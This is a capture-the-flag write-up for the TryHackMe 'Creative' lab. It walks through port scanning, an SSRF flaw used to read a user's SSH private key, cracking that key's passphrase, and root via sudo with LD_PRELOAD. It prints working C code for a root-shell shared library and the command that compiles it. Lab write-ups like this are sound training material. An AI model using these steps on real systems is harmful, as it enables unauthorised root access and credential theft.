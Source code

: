 --------------

### CTF: THM
### Lab: Creative

--------------

![image](https://github.com/user-attachments/assets/2cde5215-f83e-42d3-a49a-8808077035a8)

--------------

- Rustscan's output

      ❯ rustscan -a 10.10.246.239  -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.246.239:22
      Open 10.10.246.239:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-10 18:05 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 18:05
      Completed NSE at 18:05, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 18:05
      Completed NSE at 18:05, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 18:05
      Completed NSE at 18:05, 0.00s elapsed
      Initiating Connect Scan at 18:05
      Scanning creative.thm (10.10.246.239) [2 ports]
      Discovered open port 22/tcp on 10.10.246.239
      Discovered open port 80/tcp on 10.10.246.239
      Completed Connect Scan at 18:05, 0.44s elapsed (2 total ports)
      Initiating Service scan at 18:05
      Scanning 2 services on creative.thm (10.10.246.239)
      Completed Service scan at 18:06, 6.39s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.246.239.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 18:06
      Completed NSE at 18:06, 26.75s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 18:06
      Completed NSE at 18:06, 9.60s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 18:06
      Completed NSE at 18:06, 0.01s elapsed
      Nmap scan report for creative.thm (10.10.246.239)
      Host is up, received user-set (0.21s latency).
      Scanned at 2024-11-10 18:05:57 WAT for 44s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Lin
      | ssh-hostkey: 
      |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCsXwQrUw2YlhqFRnJpLvzHz5VnTqQ/XrEJU/JEiooZu4aPe4tiRdNQKB09stTOfaMUFsbXSYGjvf5u+gavNZOOTCQxEoKeZzPzxUJ0baNaHNuF4Xo3PpqiUr+qEZUyZJKNrH4O8hErH/2h7AUEPpPIo7zEK1ZzqFNWcpOqguYOFVZMag999UzNEj8Wx8Qj4LfTWKLubcYS9iKN+exbAxXOIdbpolVtIFh0mP/cm9WRhf0z9WR9tX1FvJ
      |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAA4JrZXR5KvRK8Y=
      |   256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFf4qwz85WzZVwohJm4pYByLpBj7j2JiQp
      80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD
      |_http-server-header: nginx/1.18.0 (Ubuntu)
      |_http-title: Creative Studio | Free Bootstrap 4.3.x template
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Subdomain's fuzzing with ffuf

![image](https://github.com/user-attachments/assets/b68a3272-7f39-4f08-a771-4593d66863ea)

- In subdomain `beta`, the index page allows users to load urls which is vulnerable to `SSRF`.I decided to fuzz for internal ports on the localhost.

![image](https://github.com/user-attachments/assets/81a3d933-1a17-4dc0-ba8d-7683af9ca47d)

- I fuzzed for ports with burp intruder and I discovered a directory listing on port `1337`.

![image](https://github.com/user-attachments/assets/92a5ec6d-fc57-4e3c-9b41-1cd610eba3dd)

- I was able to read the `id_rsa` file for user `saad`.

![image](https://github.com/user-attachments/assets/fce36a4c-4dc6-4b41-bdf2-1dcbe466dc2e)

- The `id_rsa` key requires a passphrase which I was able to crack with `john`.

![image](https://github.com/user-attachments/assets/95546ca2-5f43-42a9-b532-53fe0ece9a4a)

- SSH access
  
![image](https://github.com/user-attachments/assets/cc51b641-c616-4f1d-93a4-e83e35241a61)

----------------

### PRIVESC with LD_PRELOAD

- I discovered user `saad`'s password in his `.bash_history` file.

![image](https://github.com/user-attachments/assets/e9b6365f-fd63-409f-ab2e-74711b04edd3)

- I ran `sudo -l` and discovered that I can run `ping` as root.Also the `env` variable is set to `LD_PRELOAD`.

![image](https://github.com/user-attachments/assets/0bfcd362-a8c9-475f-853f-39deebca5d18)

- I compiled the code below to a  shared library.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

- I executed the bash instruction below to compile the code.

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![image](https://github.com/user-attachments/assets/e1d668e7-d54f-4f05-b303-80541e68bdd4)

- Set `LD_PRELOAD` variable in conjuction with the binary you have sudo permission to execute.

![image](https://github.com/user-attachments/assets/7d7e86e6-146c-4a68-9ea4-433a06ec8395)

- Root!!!

![image](https://github.com/user-attachments/assets/b03506ab-24b0-443f-8c60-4dc7cf2e0b87)
------------------

### THANKS FOR READING!!!

------------------

### Reference:

- [LD_PRELOAD](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

------------------












